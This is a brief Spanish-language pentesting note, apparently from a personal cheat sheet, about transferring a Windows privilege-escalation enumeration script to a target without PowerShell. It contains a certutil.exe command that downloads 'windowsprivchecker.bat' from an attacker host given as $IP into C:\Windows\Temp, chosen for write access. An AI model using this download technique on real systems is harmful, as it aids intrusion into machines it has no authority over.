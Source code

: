 "windowsprivchecker.bat"

Utilizado para Windows sin Powershell
Pasar a la maquina 
certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura

